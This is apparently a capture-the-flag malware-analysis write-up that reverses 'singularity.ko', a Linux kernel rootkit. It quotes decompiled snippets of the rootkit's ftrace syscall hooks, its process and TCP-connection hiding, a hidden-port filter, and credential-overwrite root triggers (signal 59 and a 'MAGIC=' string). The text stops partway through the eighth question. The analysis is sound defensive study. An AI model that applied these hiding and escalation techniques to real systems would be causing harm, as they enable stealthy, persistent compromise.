# Singularity: Linux Rootkit Analysis (MalOps, Easy)

| | |
|---|---|
| **Platform** | MalOps (Hunt.io) |
| **Challenge** | Singularity |
| **Category** | Rootkit |
| **Difficulty** | Easy |
| **Tool** | IDA (Hex-Rays decompiler) |
| **Sample** | `singularity.ko` (Linux x86-64 kernel module) |
| **Result** | 15 / 15 questions, 150 / 150 points |

## Scenario

A production web server was flagged for unusual outbound traffic to an unknown C2 server on an unconventional port. Live inspection of processes and connections showed nothing, so the DFIR team captured memory and recovered a malicious kernel module. The task is to reverse the module and work out what it does.

## Methodology

1. Hash the sample (`Get-FileHash`).
2. Load the `.ko` in IDA. The module carries DWARF info, so IDA applies 144 function symbols and shows source file names (`main.c`, `icmp.c`, `become_root.c`, and so on), which makes navigation easy.
3. Start at the module entry point and read its list of `*_init` calls. Each one is a feature.
4. Open each feature's init function, then the hook array it installs, then the hook functions themselves.
5. Cross-check constants (byte order, signed vs unsigned) before converting them.

## Core concepts

**Loadable kernel module entry point.** The kernel calls a module's `init_module` when it loads. In source this is written `module_init(foo)`, and the compiler exports `foo` under the symbol name `init_module`. This is why IDA shows a function named `singularity_init` with the comment `Alternative name is 'init_module'`.

**`__pfx_` symbols.** Kernels built with function padding (used for call-depth tracking and ftrace) put a block of `nop`s before each function. IDA labels that block `__pfx_<function>`. It is *not* the function. Double-clicking it lands on a run of NOPs.

**ftrace hooking.** The rootkit uses `fh_install_hooks()` with arrays of `ftrace_hook` structs. Each entry holds the name of a kernel function, a replacement function, and a pointer where the original is saved. The kernel's ftrace machinery redirects calls to the replacement, so the rootkit never has to patch the syscall table.

**Syscall hooks as a control channel.** Hooking harmless syscalls such as `kill` and `getuid` gives the attacker a covert trigger. Normal programs never send signal 59 or run with the magic string, so ordinary behaviour is unaffected.

**Byte order.** Network fields (IP addresses, ports, ICMP sequence numbers) are big-endian. x86 loads them little-endian, so a decompiled 16-bit constant appears byte-swapped. Two questions in this challenge (Q7 and Q13) depend on this.

---

## Q1. SHA256 of the sample

**Approach.** Hash the file in PowerShell.

```powershell
Get-FileHash .\singularity.ko
```



**Answer:** `0B8ECDACCF492000F3143FA209481EB9DB8C0A29DA2B79FF5B7F6E84BB3AC7C8`

---

## Q2. Primary initialization function

**Concept.** A kernel module's entry point is exported as `init_module`.

**Approach.**

1. Searching Functions for `init_module` returns mostly `hook_init_module*` and `hook_finit_module*`. Those are the rootkit's *hooks of the kernel's* `init_module` syscalls, not the module's own entry point.

   

2. The Names window shows `__pfx_init_module` (address `0x52A0`), which is the NOP padding described above.

   

3. Xrefs to `__pfx_init_module` are all kernel metadata (`.call_sites`, `.return_sites`, `.orc_unwind_ip`, `__patchable_function_entries`). None of them reveals the body.

   

4. In `.init.text`, the padding block carries the comment `Alternative name is '__pfx_singularity_init'`. The real function is `singularity_init`.

   

   

5. Opening `singularity_init` shows `Alternative name is 'init_module'`. IDA renamed the function from DWARF info, but its exported symbol is `init_module`.

   

**Answer:** `init_module`

> **Lesson learned.** I first submitted `singularity_init` and it was rejected. The question asks for the name "called when the module is loaded", which is the exported symbol. When IDA shows an `Alternative name`, that is the name the platform expects.

---

## Q3. Number of feature-initialization functions

**Approach.** Decompile `init_module` (press F5) and count the calls.

```c
int __cdecl singularity_init()
{
  _fentry__();
  v0  = reset_tainted_init();
  v1  = hiding_open_init()      | v0;
  v2  = become_root_init()      | v1;
  v3  = hiding_directory_init() | v2;
  v4  = hiding_stat_init()      | v3;
  v5  = hiding_tcp_init()       | v4;
  v6  = hooking_insmod_init()   | v5;
  v7  = clear_taint_dmesg_init()| v6;
  v8  = hooks_write_init()      | v7;
  v9  = hiding_chdir_init()     | v8;
  v10 = hiding_readlink_init()  | v9;
  v11 = bpf_hook_init()         | v10;
  v12 = hiding_icmp_init()      | v11;
  v13 = trace_pid_init()        | v12;
  module_hide_current();
  return v13;
}
```



The variables `v0` to `v13` are 14 calls whose return codes are OR-ed together. Any non-zero error propagates to the return value. A fifteenth call, `module_hide_current()`, follows.



**Answer:** `15`

> **Lesson learned.** I counted 14 feature calls plus a self-hiding call and considered them different categories. The platform counts all 15 calls. The 14 are chained with `|=`, but they are all "init" calls made by the entry point.

### Feature map

| Init function | What it sets up |
|---|---|
| `reset_tainted_init` | Anti-forensics thread that clears the kernel taint flag (Q4) |
| `hiding_open_init`, `hiding_directory_init`, `hiding_stat_init`, `hiding_chdir_init`, `hiding_readlink_init` | File and directory hiding |
| `become_root_init` | Privilege escalation hooks (Q8, Q9) |
| `hiding_tcp_init` | Hides network connections (Q7) |
| `hooking_insmod_init` | Hooks `init_module`/`finit_module` syscalls (`hooks_1` array) |
| `clear_taint_dmesg_init` | Hooks `read`/`pread64`/`readv` (`hooks_2` array); its exact filtering was not reviewed |
| `hooks_write_init`, `bpf_hook_init`, `trace_pid_init` | Not reviewed in this writeup |
| `hiding_icmp_init` | ICMP backdoor trigger (Q12 to Q15) |

---

## Q4. Anti-forensics kernel thread name

**Approach.** Open `reset_tainted_init`.

It resolves the address of `tainted_mask` through a kprobe trick: register a kprobe (`probe_lookup`), read the address it resolved, unregister it, then call that address with `"tainted_mask"`. This pattern is the usual way to recover `kallsyms_lookup_name` on modern kernels, though I did not check which symbol `probe_lookup` targets. It then creates a kernel thread running `zt_thread` (not decompiled; from the names it clears the taint flag) and hides that thread's PID with `add_hidden_pid`.

```c
v1 = kthread_create_on_node(zt_thread, 0, 0xFFFFFFFF, "zer0t");
...
wake_up_process(v1);
pid = v2->pid;
add_hidden_pid(pid);
```



**Answer:** `zer0t`

---

## Q5. Maximum number of hidden PIDs

**Approach.** Open `add_hidden_pid`. The function walks the existing `hidden_pids` array to avoid duplicates. When it reaches the end of the stored entries, it checks the count against a constant before inserting.

```c
if ( ++v3 == &hidden_pids[hidden_count] )
{
    if ( hidden_count == 32 )
        return;          // list full, silently drop
    goto LABEL_7;        // insert pid, hidden_count++
}
```



**Answer:** `32`

---

## Q6. Last function called in `init_module`

**Approach.** From the Q3 pseudocode, the final call before `return` is `module_hide_current()`. Its name and position (after every feature is installed) indicate it removes the module from the kernel's module list so it disappears from `lsmod` and `/proc/modules`. I did not decompile it.


**Answer:** `module_hide_current`

---

## Q7. Hidden TCP port (decimal)

**Approach.**

1. `hiding_tcp_init` is a single call that installs a 3-entry array named `new_hooks`.

   ```c
   return fh_install_hooks(hooks: new_hooks, count: 3u);
   ```

   

2. `new_hooks` hooks `tcp4_seq_show`, `tcp6_seq_show` and `tpacket_rcv`. The first two generate the lines of `/proc/net/tcp` and `/proc/net/tcp6` (what `netstat` reads). `tpacket_rcv` is the raw-socket packet-capture path, so this hook is likely there to keep the traffic out of capture tools; I did not decompile it.

   

3. In `hooked_tcp4_seq_show`, the assembly shows the hardcoded IP `192.168.5.128` and reads of the socket fields at `sk+0Ch` and `sk+31Fh`.

   

4. The pseudocode compares two 16-bit fields (`v4`, `v6`) against a constant, shown first as a signed value:

   ```c
   if ( (v7 == in_aton("192.168.5.128")) || v6 == -24250 || v4 == -24250 )
       return 0;   // skip this entry: hide it
   ```

   

   Switching the display to hexadecimal shows `0xA146`.

   

5. TCP ports in socket structures are stored in network byte order, so byte-swap before converting.

   | Step | Value |
   |---|---|
   | Signed 16-bit shown by IDA | `-24250` |
   | Raw (unsigned) | `0xA146` |
   | Byte-swapped (host order) | `0x46A1` |
   | Decimal | **18081** |

   

   > The screenshot above is a capture of the conversion worked out during analysis, not an IDA view.

The hook returns 0 (hides the line) when either endpoint address is `192.168.5.128` or either port is 18081. Connections to and from the C2 IP are hidden as well.

**Answer:** `18081`

---

## Q8. Privilege-escalation "magic word"

**Approach.**

1. `become_root_init` installs the 10-entry `hooks` array (see Q9). The hook names are syscalls, so the trigger is in one of those hooks.

2. **`hook_kill`** handles a special signal number first. If the signal is `59`, it builds new credentials, zeroes the ID fields and commits them (root), and hides the target PID.

   ```c
   if ( (DWORD)si == 59 )
   {
       v6 = prepare_creds();
       if ( v6 ) { v6[1] = 0; v6[2] = 0; v6[3] = 0; v6[4] = 0; commit_creds(v6); }
       add_hidden_pid(pid: v3);
       return 0;
   }
   ```

   

   This is a numeric trigger, not a string, so it is not the answer.

3. **`hook_getuid`** is the string check. It reads up to 4095 bytes of the calling process's memory with `access_process_vm`, replaces NUL bytes with spaces so the buffer reads as one string, then searches it with `strstr`. On a match, it escalates to root with the same `prepare_creds` / `commit_creds` pattern.

   ```c
   if ( strstr(haystack: v5, needle: "MAGIC=babyelephant") != nullptr )
   {
       v9 = prepare_creds();
       if ( v9 ) { v9[1] = 0; v9[2] = 0; v9[3] = 0; v9[4] = 0; commit_creds(v9); }
   }
   ```

